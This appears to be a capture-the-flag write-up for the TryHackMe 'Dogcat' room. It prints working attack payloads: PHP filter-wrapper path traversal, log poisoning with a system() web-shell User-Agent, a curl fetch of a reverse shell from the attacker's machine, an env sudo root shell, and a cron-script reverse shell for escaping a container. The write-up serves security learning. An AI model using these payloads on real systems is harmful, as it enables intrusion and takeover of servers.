










Hello everyone,

Today we are going to solve Dogcat room from tryhackme. we will learn about php wrappers,log poisoning,docker and privesc with `env` SUID binary.


<!--truncate-->

## Nmap results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster results

```bash
┌──(kali㉿kali)-[~/Documents/THM/Dogcat]
└─$ gobuster dir -u http://10.10.238.89/ -w /usr/share/wordlists/dirb/common.txt -t 30 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.89/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/17 12:34:31 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/cats                 (Status: 301) [Size: 311] [--> http://10.10.238.89/cats/]
/index.php            (Status: 200) [Size: 418]
/server-status        (Status: 403) [Size: 277]
===============================================================
2021/10/17 12:35:03 Finished
===============================================================
```

---

--> I tried many payloads but didn't succeed. i also tried with null character but still getting error

Then i tried this payload : `php://filter/convert.base64-encode/resource=dog/../index`

--> And i got the base64 encoded output!



--> After decoding it i got the source code of `index.php`

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

--> here we can see that there is a another parameter which is `ext` and i also got this parameter from arjun. So we can see this parameter is appending after the value of `view` so we have to make the `ext` null and then we can bypass this i guess.

--> and i used this payload : `php://filter/convert.base64-encode/resource=dog/../../../../../../../../../etc/passwd&ext=`

And got the `/etc/passwd` file



```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

--> Then i have read `/var/log/apache2/access.log` file and i got the apache2 logs and there i found that the user-agent was reflecting so There is a chance to do `log poisoning`

I used this payload to read the access log : `dog/../../../../../../../../../var/log/apache2/access.log&ext=`



--> After that i changed the User-agent with `<?php system($_GET['c']); ?>` and added one more parameter with the value : `&c=ls`

So final payload will be :

```bash
dog/../../../../../../../../../var/log/apache2/access.log&ext=&c=ls
```

And boom we got the result !



Got the first flag in `flag.php`



After that i uploaded my php reverse shell using curl

```bash
curl http://<ip>:<port>/shell.php
```

After that execute the file

```bash
php shell.php
```

--> And i got the reverse shell !



--> Got the second flag in `/var/www`



--> i found the `/env` as runnable by root without password and it was SUID also

i run this command from gtfobins : `sudo /usr/bin/env /bin/bash`

--> And got the root shell !



--> Found flag3 in `/root` directory



--> i tried to search for a flag4 in every directory but i didn't found anything then i found one file called `backup.sh` in `/opt` directory. It was extracting the backup.tar file and then placing it to `/root/container` but there is a no folder named `container` in root directory so i made one reverse shell payload and uploaded it into `backup.sh` file and it is a maybe a crontab so it will execute automatically

--> And after some time i got the reverse shell as root but this time the root directory was changed and i got the flag4 there also



--> That means this was the another docker environment and we were in another environment before!
